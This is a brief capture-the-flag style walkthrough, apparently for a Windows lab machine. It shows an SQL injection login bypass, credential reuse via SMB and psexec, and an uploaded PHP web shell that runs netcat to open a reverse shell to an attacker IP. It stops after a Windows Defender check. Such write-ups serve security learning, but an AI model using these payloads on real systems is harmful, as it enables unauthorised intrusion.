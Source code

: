 # Windows Subsystem for Linux

It is use to run linux in windows with or without the VMs. 

Now we want to get some initial foothold to the machine. Moving to the port 80 to see the website, it contains a login page so we are registering new account and login to it. And in the contact us their given a mail `tyler@randome.com` it gives the username. The username enumeration is done in new registeration because it cannot allow the username as duplicate and says the username is already taken 

and by logining with the username and password using sql injection 

```
// credentials 
username and password - 'OR 1 OR'
```

Now we can see all the users notes in that the user tyler has the note of his credentials and name of smb folder and now using the psexec.py to get the initial access 

We have two website one in port 80 and other in the port 8880, port 8880 has direct access to smb 
```
psexec.py tyler:'his_password'@ip_address 

// it is blocked may be due to the antivirus or firewall so we got the credentials of tyler now we going to use the smb and got into it 
smbclient \\\\ip_address\\new-site -U tyler 

// we have nc.exe in the kali machine and uploading in the smb folder 
put nc.exe 

// uploading the reverse shell in the php with a filename (reverse.php)
<?php system('nc.exe -e cmd.exe attacker_ip port')?>

// upload the reverse shell 
put reverse.php

// now visiting the target site give us reverse shell 
https://target.site/reverse.php 

// we got the initial access 
systeminfo - with error : Access Denied

// we can't access efficiently so checking for the antivirus software and found the windows defender is up  
sc query windefend 
```
